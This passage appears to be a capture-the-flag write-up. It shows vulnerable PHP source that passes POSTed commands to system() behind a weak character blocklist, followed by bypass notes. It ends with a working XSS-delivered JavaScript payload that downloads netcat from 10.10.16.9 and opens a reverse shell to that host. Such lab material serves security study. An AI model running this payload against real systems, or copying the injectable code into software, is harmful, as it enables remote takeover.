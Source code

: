 ```
<?php
include('../link.php');
include('auth.php');

$username = base64_decode(urldecode($_COOKIE['username']));
$password = base64_decode(urldecode($_COOKIE['password']));
$bad 	  = array('$(','&');
$good 	  = "ls";

if(strtolower(substr(PHP_OS,0,3)) == "win"){
	$good = "dir";
}

if($username == "admin" && $password == "Hopelessromantic"){
	if(isset($_POST['cmd'])){
			// FILTER ESCAPE CHARS
			foreach($bad as $char){
				if(strpos($_POST['cmd'],$char) !== false){
					die("You're not allowed to do that.");
				}
			}
			// CHECK IF THE FIRST 2 CHARS ARE LS
			if(substr($_POST['cmd'], 0,strlen($good)) != $good){
				die("It's only allowed to use the $good command");
			}

			if($_SERVER['REMOTE_ADDR'] == "::1"){
				system($_POST['cmd']);
			} else{
				echo "It's only allowed to access this function from localhost (::1).<br> This is due to the recent hack attempts on our server.";
			}
	}
} else{
	echo "You are not allowed to use this function!";
}
?>
```

- The first 3 chars should be `dir`
  - We can't use `$(` and `&` chars
  - The request should be done from the localhost
  - We can bypass the first 2 checks with `dir|`
  - So we are left with the last check
    - We can utilize `XSS`
  - Create a `js` script and host it on server
  - Deploy a listener
```
var r = new XMLHttpRequest();
var cmd = 'cmd=dir | powershell -c "iwr 10.10.16.9/nc64.exe -outfile \\programdata\\nc.exe"; \\programdata\\nc.exe 10.10.16.9 6666 -e cmd';
var url = 'http://localhost/admin/backdoorchecker.php';
r.open('POST', url, true);
r.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
r.send(cmd);
```
